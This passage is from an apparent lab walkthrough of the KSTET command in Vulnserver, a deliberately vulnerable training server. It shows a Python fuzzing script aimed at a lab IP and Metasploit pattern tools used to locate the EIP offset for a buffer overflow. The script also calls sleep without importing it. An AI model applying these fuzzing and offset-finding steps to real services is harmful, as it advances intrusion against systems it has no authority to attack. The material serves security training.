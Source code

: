 ```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat fuzzing.py        
import socket, sys
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"KSTET "+payload))
        sleep(5)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 fuzzing.py   
Fuzzing crashed at 100 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```100 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Fuzzing with the pattern to crash the program,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-offset.png">
</div>

Finding offset of the ```EIP``` from the pattern

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
```

We can see that our EIP is at the offset of ```70 bytes``` in the pattern

